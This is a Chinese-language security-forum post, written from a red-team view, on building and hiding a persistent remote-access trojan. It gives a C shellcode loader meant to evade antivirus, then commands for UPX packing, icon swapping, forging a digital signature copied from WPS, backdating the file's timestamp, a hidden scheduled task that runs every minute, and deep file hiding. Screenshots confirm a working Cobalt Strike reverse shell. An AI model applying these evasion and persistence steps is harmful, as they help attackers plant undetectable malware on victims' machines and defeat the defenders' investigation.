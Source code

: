 

# 红队视角下的隐匿木马文件 实现持久化控制 - 先知社区

红队视角下的隐匿木马文件 实现持久化控制

- - -

### 前言

在红蓝对抗的过程中，远控木马起到了相当重要的作用，而面对蓝队技术人员的种种查杀，远控木马如何在目标机器上长久的存活下去

### 免杀马制作

cobalt strike 生成 shellcode.c  
[![](assets/1699257267-f19848466d0da4851c8b0243dcab12df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103223649-6c30ee5e-7a56-1.png)  
可以根据目标机器安装的杀毒软件制作有针对性的免杀马，当然，能够 BypassAV 是最好不过的了，为了节约时间成本，选择使用申请动态内存的方式加载 shellcode 生成免杀木马

```plain
#include <Windows.h>
#include <stdio.h>
#include <string.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") //windows 控制台程序不出黑窗口
unsigned char buf[] = 
"shellcode";
main()
{
  char *Memory; 
  Memory=VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(Memory, buf, sizeof(buf));
  ((void(*)())Memory)();
}
```

可以通过 360 的静态免杀，动态操作也没有任何报毒提示  
[![](assets/1699257267-c05cf0d49ff0c64dc24ccd58592ccbe4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103224138-18a68c70-7a57-1.png)

### 文件加壳

这里生成的 shellcode 为 64 为的执行代码，使用 upx 进行加壳

**项目地址**

[https://github.com/upx/upx](https://github.com/upx/upx)

```plain
.\upx.exe C:\Users\33519\Desktop\shellcode.exe
```

[![](assets/1699257267-e7817efcb34f6f54e0805997bf9ee264.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103224231-37d6af94-7a57-1.png)  
文件加壳后属性对比  
[![](assets/1699257267-aeaca3e3da98a99ba8debe1ab3a6cbe9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103224402-6e264bd6-7a57-1.png)

### 替换图标

使用 BeCyIconGrabberPortable 提取图标  
[![](assets/1699257267-071977a86f46731128456581bf92b5b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103224500-90f2c8e2-7a57-1.png)  
**项目地址**  
[https://github.com/JarlPenguin/BeCyIconGrabberPortable](https://github.com/JarlPenguin/BeCyIconGrabberPortable)  
使用 Resource hacker 替换木马程序的图标  
[![](assets/1699257267-929ff6cb2e5b18123824dd41d006efc2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103224527-a0b6555a-7a57-1.png)

### 伪造签名

使用 SigThief 对木马程序进行数字签名伪造  
**项目地址**  
[https://github.com/secretsquirrel/SigThief](https://github.com/secretsquirrel/SigThief)  
使用 wps 的数字签名进行伪造

```plain
python .\sigthief.py -i wps.exe -t .\shellcode.exe -o shellcode2.exe
```

[![](assets/1699257267-0f427220f3cbd486105e94f14ee3a754.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225005-46af7842-7a58-1.png)

-   \-i 自带签名的文件
-   \-t 未加签名的文件
-   \-o 输出文件  
    shellcode2 为伪造数字签名后的木马文件  
    [![](assets/1699257267-351f258410a5bd1e41742c15511521b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225049-6095c0f4-7a58-1.png)

### 伪造文件修改时间

蓝队技术人员通常会在时间顺序上排查攻击者上传的文件，我们上传的木马文件是最新的，所以使用 ChTimeStamp 伪造文件修改的时间  
**项目地址**  
[https://github.com/MsF-NTDLL/ChTimeStamp](https://github.com/MsF-NTDLL/ChTimeStamp)

```plain
ChTimeStamp.exe C:\Users\canxue\Desktop\shellcode2.exe "C:\Program Files (x86)\360\360Safe\360bps.dat"
```

[![](assets/1699257267-99072e9176e5811f51349b6ce3d718dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103230339-2b89734a-7a5a-1.png)  
360bps.bat 为安装 360 时创建的文件，时间为一月份  
修改前后文件属性对比  
[![](assets/1699257267-a43e3d1ac9a277ee534d33b16dcbc240.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225115-7071a51a-7a58-1.png)  
[![](assets/1699257267-3683f66db245e7378bed1e5ed14c677d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225159-8a4587cc-7a58-1.png)

通过 everything 筛查文件不会发现近期上传的木马文件  
[![](assets/1699257267-180330b4a0ae59bf3c2337d8859797e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225215-94533408-7a58-1.png)  
[![](assets/1699257267-8632b8ba36713b33a73f595536e5fdc6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225235-9ff7122a-7a58-1.png)

### 计划任务隐藏自启动木马程序

使用 SchTask 创建隐藏的自启动任务  
**项目地址**  
[https://github.com/0x727/SchTask\_0x727/tree/main](https://github.com/0x727/SchTask_0x727/tree/main)

```plain
选择主机随机进程名作为计划任务程序文件名
将计划任务程序文件复制到 `%AppData%\Microsoft\Windows\Themes\` 中
创建的计划任务名取同一随机进程名
计划任务触发器以分钟为单位，无限期持续
更改 Index、删除 SD 的键值，隐藏计划任务对应的 XML 文件
```

```plain
SchTask.exe shellcode2.exe 1
```

设置每分钟执行一次计划任务，计划任务为执行 shellcode2.exe 程序  
[![](assets/1699257267-fc7ec930e105372a62361bb9f0cebf73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225518-01456c02-7a59-1.png)  
被隐藏的计划任务，在注册表中可以看到  
[![](assets/1699257267-8ef4b99a59e18e440d0fd6cb90ebba93.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225550-1460bb66-7a59-1.png)  
[![](assets/1699257267-64491ab2c221af3869ead291f613e704.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225610-204bb98a-7a59-1.png)  
一分钟后自动执行木马程序，cobalt strike 可以正常接收到反弹的 shell  
[![](assets/1699257267-cb9819a101e8e1a10329b1648cb81c9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225652-39517c58-7a59-1.png)  
可以正常上线，命令也可以正常执行  
[![](assets/1699257267-a683212f6bcb450dfbdda11f7dfe3585.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225808-6684315c-7a59-1.png)

```plain
attrib +s +h +r
```

使用此命令深度隐藏木马文件，即使打开查看隐藏文件选项也无法显示文件  
[![](assets/1699257267-0d42a1799e5bd3fdabc592049a2d21c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103225721-4a46bc62-7a59-1.png)
